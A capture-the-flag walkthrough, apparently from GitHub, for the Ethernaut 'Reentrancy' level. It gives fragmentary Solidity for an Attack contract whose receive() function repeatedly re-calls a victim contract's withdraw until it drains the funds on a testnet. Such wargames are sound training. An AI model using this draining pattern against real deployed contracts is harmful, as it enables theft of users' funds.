








# 10: Reentrancy

The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine, in which each level is based on a smart contract that needs to be "hacked".

This is a sample walkthrough for the level called "Reentrancy".

## Setup

First off we need a wallet. Get the Metamask Wallet from https://metamask.io/ and choose whichever network works for you ( in my case i will be using Rinkeby's testnet).
Fund the wallet with Chainlink's faucet https://faucets.chain.link/rinkeby and then click on the button "Get new instance" to deploy the contract.

## Steps for completing the level
Click on F12 to get on Developer Tools. You will get something like this:

Go on Remix: https://remix.ethereum.org/ and make this change in Reentrancy.sol. 

Copy the Reentrancy.sol contract found before "submit instance" and "get new instance" buttons.

At Reentrancy.sol i made this next changes:
>- <value> 1. Pragma version from **0.6.0** to **0.8.0**
>- <value> 2. Change **"@openzeppelin/contracts/math/SafeMath.sol"** with **"./SafeMath.sol"**

This level asks us to withdraw all the funds from the Reentrancy contract. Our single solution is to create another contract called Attack, who's gonna hack into the Reentrancy contract by using 3 new functions: donate() for sending eth, withdraw() for withdrawing the funds and receive() who's gonna keep calling the victim contract Reentrancy.

Before making the Attack contract, create a new interface called IReEntrance which we gonna use:
>- <value> function donate(address _to) external payable;
>- <value> function withdraw(uint _amount) external;}

At the Attack contract add the constructor and the functions:
>- <value> 1. constructor(address _victimAddress) {
>- <value> victimContract = IReEntrance(_victimAddress);
>- <value> 2. function balance() public view returns (uint) {
>- <value> return address(this).balance;}
>- <value> 3. function donate() public payable {
>- <value> require(msg.value == donationValue, "Value should be 500000000000000 Wei");
>- <value> 4. function withdraw() public payable {
>- <value> victimContract.withdraw(donationValue);
>- <value> require(msg.sender == owner, "Not the owner");
>- <value> uint contractBalance = address(this).balance;
>- <value> 5. receive() external payable {
>- <value> uint victimBalance = address(victimContract).balance;
>- <value> if (victimBalance >= donationValue) {
>- <value>   victimContract.withdraw(donationValue);}}

It should look something like this:

Compile the Reentrancy.sol contract:

 Instead of deploying Reentrancy.sol we are going to interact with the already deployed contract by using instance's address showed on Developer Tools and we will be deploying ourselves the Attack.sol contract to the Rinkeby's Testnet. Also, dont forget to add your wallet on Environment by selecting "Injected Provider - Metamask".

First on input 0.0005 eth (5e14 wei) before using the donate function:

Use the donate button from Attack contract and then you can see that the balance of Reentrancy contract went up: 

Withdraw it all with the withdraw function from the Attack contract and then check the left balance of Reentrancy contract:

Wow, congrats!! You have managed to withdraw all the funds by using a Re-entrancy Attack and have completed this level.

Now finish the level by using the submit button at the bottom of the page.

Congrats! See you on to the next level.:wave: